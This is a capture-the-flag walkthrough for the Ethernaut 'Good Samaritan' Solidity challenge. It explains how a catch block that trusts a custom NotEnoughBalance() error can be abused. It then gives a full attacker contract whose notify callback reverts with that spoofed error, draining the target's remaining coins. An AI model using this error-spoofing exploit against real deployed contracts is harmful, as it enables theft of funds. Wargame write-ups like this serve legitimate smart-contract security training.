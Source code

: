 In the `requestDonation` function, it tries to call `wallet.donate10`. If that returns an error matching "NotEnoughBalance()", it will transfer all of the remaining coins to the caller.

In the wallet contract, the `donate10` function contains a call to `coin.transfer`. In the coin contract, we can see that the `transfer` function will attempt to call `notify` on the destination address if it's a contract. Now we know that we want to set up a malicious contract with a `notify` function.

The contract:

    //SPDX-License-Identifier: MIT

    pragma solidity ^0.8.0;

    interface IGoodSamaritan {
        function requestDonation() external returns (bool enoughBalance);
    }

    error NotEnoughBalance();

    contract GoodSamaritanAttacker {
        function notify(uint256 amount) external pure {
            if (amount <= 10) {
                revert NotEnoughBalance();
            }
        }

        function request(address target) external {
            IGoodSamaritan(target).requestDonation();
        }
    }

The contract will call `requestDonation`, which will attempt to call `donate10`. When `donate10` calls `transfer`, it will attempt to call our `notify` function which will revert the entire `donate10` attempt with the custom `NotEnoughBalance()` error. The catch statement will then transfer the remaining balance to our contract.

Notice that our `notify` function has a check for `amount <= 10`. This is because we DO NOT want it to revert when `transferRemainder` is called with the contract's full balance, which will be greater than 10.

Deploy the attacker contract and call its `request` method for your instance. Then you can submit the level.

#
### Congratulations, you've finished all 28 Ethernaut challenges!







